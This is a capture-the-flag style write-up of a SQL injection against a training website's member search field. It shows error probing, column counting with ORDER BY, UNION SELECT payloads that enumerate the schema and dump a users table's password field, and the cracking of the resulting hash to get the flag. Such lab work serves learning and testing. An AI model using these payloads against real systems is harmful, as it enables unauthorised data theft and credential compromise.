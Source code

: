 # SQL Injection: Members

The members page of the website have an input field to search for members. Firstly we have to try if the input is vulnerable to SQL injection. Let's try a simple payload like `'` to see if we can get a SQL error message. There is the output:
```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1
```
This means that the input is vulnerable to SQL injection. NBut we have to find the number of columns in the table to be able to add a UNION SELECT statement. Let's try:
```SQL
1 ORDER BY 1 -- WORKING
2 ORDER BY 2 -- WORKING
3 ORDER BY 3 -- NOT WORKING
```
This means that the table has 2 columns. Now we can fake the first column with a number to simulate the id column and the second column with the result of an UNION SELECT. For example we can explore the database schema with the following query:
```SQL
1 UNION ALL SELECT table_name, GROUP_CONCAT(column_name) FROM information_schema.columns GROUP BY table_name
```
Now we can see the tables and columns of the database. We can see an `users` tables with the following columns:
```
town,last_name,first_name,user_id,country,planet,countersign,Commentaire
```
Let's check the `Commentaire` column values:
```SQL
1 UNION ALL SELECT Commentaire, countersign FROM users
```
This will return the `Commentaire` and `countersign` columns from the `users` table. But one of the values is :
```
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```
If we decrypt `5ff9d0165b4f92b14994e5c685cdce28` in MD5 we get `FortyTwo`. Then encrypt it with SHA256 and lower all the characters:
```bash
echo -n "fortytwo" | sha256sum | cut -d ' ' -f 1
```
We get the flag.